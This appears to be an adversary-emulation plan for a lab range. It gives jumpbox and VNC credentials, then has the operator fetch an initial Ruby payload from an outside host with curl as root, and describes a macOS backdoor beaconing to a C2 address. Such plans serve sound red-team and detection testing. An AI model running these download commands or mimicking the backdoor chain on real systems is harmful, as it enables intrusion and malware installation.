 ## Step 0 - Range Setup

* :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate a VNC
session to the macOS victim workstation `hogshead (10.55.4.50)` as
`encryptpotter.net\ranrok`:

    | VNC server | Password |
    | -------- | -------- |
    | 10.55.4.50::5900 | test1234 |

  * At the macOS login screen, authenticate with the following credentials:

    | Username | Password |
    | -------- | -------- |
    | ranrok | Ladylike-Laugh |

* Open a Terminal and elevate to sudo, providing the following password when
prompted:

    ```zsh
    sudo su
    ```

    | Password |
    | -------- |
    | Ladylike-Laugh |

* Execute the following command to download the initial payload.

```bash
curl -o /usr/local/bin/start.rb  http://b0ring-t3min4l.kr/files/start.rb
```

## Step 1 - Command and Control

### :microphone: Voice Track

> [!Note]
> This plan starts after initial compromise, where the victim was compromised
> via supply chain attack resulting in execution of a malicious script in the
> elevated context

A supply chain attack results in execution of a malicious Ruby script in the
elevated context. The Ruby script performs the following actions:

* Downloads two files:
  * `/usr/local/bin/com.docker.sock` (FULLHOUSE.DOORED)
  * `/usr/local/bin/com.docker.sock.lock` (FULLHOUSE.DOORED configuration file)
* Executes FULLHOUSE.DOORED

FULLHOUSE.DOORED is a first-stage backdoor written in C++/Objective-C++. On
execution, it will load the configuration file then communicate over HTTP to
the C2 address defined in the configuration file (`http://199.88.44.44`).
